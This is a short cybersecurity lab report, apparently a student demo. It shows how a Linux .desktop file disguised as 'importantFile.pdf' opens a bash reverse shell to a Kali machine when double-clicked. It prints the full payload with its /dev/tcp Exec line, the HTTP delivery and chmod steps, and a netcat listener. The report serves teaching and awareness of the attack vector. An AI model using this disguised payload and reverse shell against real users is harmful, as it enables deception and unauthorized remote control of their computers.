 # Reverse Shell via .desktop File  
*Cybersecurity Demo Report*

---

## 1. Objective

This demo showcases a phishing-style reverse shell attack using a disguised `.desktop` file on Ubuntu.  
When the victim double-clicks the file, it initiates a reverse shell back to the attacker's Kali machine without opening a terminal or requiring further interaction.

---

## 2. Environment Setup

- **Attacker:** Kali Linux  
- **Victim:** Ubuntu Desktop VM  
- **Listener Tool:** Netcat (nc)  
- **Network:** Bridged Adapter with IP `192.168.1.114` (Kali)  

---

## 3. Tools Used

- Netcat for listening on the attacker’s side  
- Bash reverse shell payload embedded in a `.desktop` file  
- Python HTTP server for file delivery  
- `curl` for file download  

---

## 4. Attack Scenario

A `.desktop` file named `importantFile.pdf.desktop` was created with a malicious `Exec` command that opens a reverse shell to the attacker's machine.  
When the file is made executable and allowed for launching in Ubuntu, double-clicking it initiates a shell session back to the attacker.

---
## Execution Steps

1. **Create the Payload File (`importantFile.pdf.desktop`)**

Create a `.desktop` file with the following content. This file, when executed, will open a reverse shell back to your Kali machine:

    [Desktop Entry]
    Name=importantFile.pdf
    Exec=bash -i >& /dev/tcp/192.168.1.114/4443 0>&1
    Type=Application
    Terminal=false

Save this content as `importantFile.pdf.desktop`.

---

2. **Start a Simple HTTP Server on the Host Machine (Ubuntu)**

Run the following command to serve the file over HTTP on port 8888:

    python3 -m http.server 8888

---

3. **Download the Payload File on the Target (Ubuntu)**

Download the file using the URL below on the target machine:

    http://192.168.1.114:8888/importantFile.pdf.desktop

---

4. **Set Execution Permissions and Move to Desktop**

Make the file executable:

    chmod +x importantFile.pdf.desktop

Move it to the Desktop folder:

    mv importantFile.pdf.desktop ~/Desktop/

---

5. **Start a Netcat Listener on Kali**

Open a terminal on Kali and run:

    nc -lvnp 4443

---

6. **Execute the Payload**

On the Ubuntu target, double-click the `importantFile.pdf.desktop` file on the Desktop to trigger the reverse shell connection to your Kali listener.


## Sources Used

- Linux man pages (`chmod`, `bash`, `netcat`)
- Python official documentation: [`python3 -m http.server`](https://docs.python.org/3/library/http.server.html)
- Desktop Entry Specification: [freedesktop.org](https://specifications.freedesktop.org/desktop-entry-spec/latest/)
- Netcat usage tutorials and common penetration testing guides
- Personal practical experience and lab testing

---

## Conclusion

This procedure demonstrates a straightforward way to create a malicious `.desktop` file that establishes a reverse shell connection from an Ubuntu target back to an attacker’s Kali machine. By hosting the payload on a simple Python HTTP server and using basic Linux commands to download, set permissions, and execute the file, the attacker can gain remote shell access.

The use of `.desktop` files as executable launchers on Linux desktops highlights the importance of cautious handling of downloaded files and maintaining strict user privilege controls. Additionally, setting up a netcat listener effectively allows the attacker to receive the connection.

Understanding these steps helps both penetration testers and system administrators recognize potential attack vectors and implement appropriate defenses.
